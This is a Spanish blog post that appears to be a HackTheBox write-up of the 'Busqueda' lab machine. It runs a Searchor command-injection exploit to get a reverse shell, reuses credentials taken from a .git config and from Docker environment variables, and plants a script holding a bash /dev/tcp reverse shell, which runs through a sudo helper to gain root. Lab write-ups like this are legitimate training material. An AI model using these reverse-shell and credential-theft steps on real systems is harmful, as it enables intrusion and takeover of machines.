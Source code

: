 
---
title: "Busqueda"
summary: "Busqueda Machine From HackTheBox"
categories: ["Post","Blog",]
tags: ["post","lorem","ipsum"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2021-09-04

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Linux |
| **Dificultad** | Fácil |
| **IP** | 10.10.11.208 |
- - -
## Enumeración

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

ESTADO DEL PUERTO VERSIÓN DEL SERVICIO
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocolo 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open http Apache httpd 2.4.52
|_http-title: No se siguió la redirección a http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Información del servicio: Host: searcher.htb; SO: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos ver que la web en el puerto 80 redirige a **searcher.htb**. Vamos a agregarlo a `/etc/hosts`.

Tan pronto como aterrizamos en la página, vemos lo siguiente:
![Busqueda1](img/Busqueda/busqueda1.png)

Un vistazo rápido muestra la versión de la aplicación que se está ejecutando detrás de este sitio web, que es **Searchor 2.4.0**. Si buscamos vulnerabilidades, encontramos el siguiente [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Explotación
Ejecutamos el exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

Colocamos un listener `netcat` para recibir la conexión:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

Ingresamos exitosamente a la máquina como usuario **svc** .
```bash
svc@busqueda:~$ cat usuario.txt
cat usuario.txt
75a17...8bd3e
```
- - -
## Escalada de privilegios
Al revisar los archivos del sistema, encontramos un `.git` con credenciales en la carpeta **app**.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
repositoryformatversion = 0
...
[remote "origin"]
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
remote = origin
merge = refs/heads/main
```

El usuario es **cody** y la contraseña es **jh1usoih2bkjaspwe92** para una aplicación en un subdominio llamado **gitea**. Vamos a añadirlo al `/etc/hosts` y echarle un vistazo.

![Busqueda2](img/Busqueda/busqueda2.png)

Aquí dentro no encontramos nada interesante, salvo que podemos ver un usuario llamado **administrador**. Aunque podemos intentar usar SSH con el usuario **svc** y la contraseña de **cody**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208
Contraseña de svc@10.10.11.208:
Bienvenido a Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

* Documentación: https://help.ubuntu.com
* Administración: https://landscape.canonical.com
* Soporte: https://ubuntu.com/advantage

...

Último inicio de sesión: mar abr 4 17:02:09 2023 desde 10.10.14.19
```

Comprobemos los privilegios de sudo que tiene este usuario:

```bash
svc@busqueda:/opt/scripts$ sudo -l

El usuario svc puede ejecutar los siguientes comandos en busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Este usuario tiene derecho a ejecutar ese script dentro de **/opr/scripts**.

Si lo ejecutamos, podemos ver las siguientes opciones:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Uso: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

docker-ps : Listar los contenedores de Docker en ejecución
docker-inspect : Inspeccionar un determinado contenedor de Docker
full-checkup : Ejecutar una comprobación completa del sistema
```

Después de investigar un poco, descubrimos que la opción `docker-inspect` se puede usar para recuperar información de los contenedores de Docker que se están ejecutando en la máquina, antes vista con la opción `docker-ps`.

```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
```

Parece que encontramos más credenciales para la aplicación **gitea**. Intentemos iniciar sesión como **administrador**
con estas credenciales.

![Busqueda3](img/Busqueda/busqueda3.png)

¡Genial! Ahora podemos comprobar el contenido de los **scripts** en la carpeta **/opt**.

Al leer el script `system-checkup.py` notamos que el script `full-checkup.sh` es referenciado como si estuviera en la misma carpeta:

```
...
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
...
```

Podemos abusar de esto creando nuestro propio script malicioso y referenciarlo, ya que lo estamos ejecutando con privilegios sudo:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Ten en cuenta que debes otorgar privilegios de ejecución al script para que se ejecute, ya que este fue un error mío que me llevó bastante tiempo descubrir.

Ahora, configuramos un listener `netcat` y ejecutamos el script malicioso:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

En el `netcat` recibimos el shell root:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

¡Genial! Hemos rooteado la máquina.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```